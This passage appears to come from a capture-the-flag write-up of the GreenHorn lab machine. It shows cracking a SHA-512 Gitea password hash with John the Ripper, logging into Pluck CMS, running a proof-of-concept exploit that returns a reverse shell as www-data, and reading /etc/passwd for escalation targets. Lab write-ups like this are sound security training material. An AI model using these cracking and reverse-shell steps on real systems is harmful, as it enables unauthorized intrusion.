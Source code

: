 The most likely hash type is `SHA-512` according to `haiti`. 

`haiti` provides the format to use with `John`, so let's try and see if this hash breaks!
```console
m3ga@kali$ echo d5443aef1b64544f3685bf112...[REDACTED] > giteapass.txt
m3ga@kali$ john --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt giteapass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (?)
```
The password is quickly cracked by john.

After trying the password on the **Pluck CMS**, we login successfully.
![508b69c5558bbed6c35e90229fa215ef.png](508b69c5558bbed6c35e90229fa215ef.png){: w="500" h="300" .center}

Now we should try the `poc.py` again to see if we can get a reverse shell on the system.
```console
m3ga@kali$ python3 poc.py
ZIP file path: ./payload.zip
Login account
ZIP file download.
...

connect to [10.10.16.2] from (UNKNOWN) [10.10.11.25] 53936
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 15:53:35 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$
```

The exploit finally worked and we get a reverse shell as `www-data`.

### PrivEsc to Junior
Let's see what users are on the system:
```console
$ grep --color '/bin/bash' /etc/passwd
root:x:0:0:root:/root:/bin/bash
git:x:114:120:Git Version Control,,,:/home/git:/bin/bash
junior:x:1000:1000::/home/junior:/bin/bash
```

After some enumeration, I couldn't find anything useful other than this critical privesc factor identified by `linpeas`

![05b1f8ba76f8a023b9d182ae24311047.png](05b1f8ba76f8a023b9d182ae24311047.png){: w="600" h="300" .center}

> I tried making a malicious executable and replacing the binary which the service is using, but I couldn't replace it since the service was already running and I had no permission to start/stop services. Probably a rabbit hole!
{: .prompt-warning}
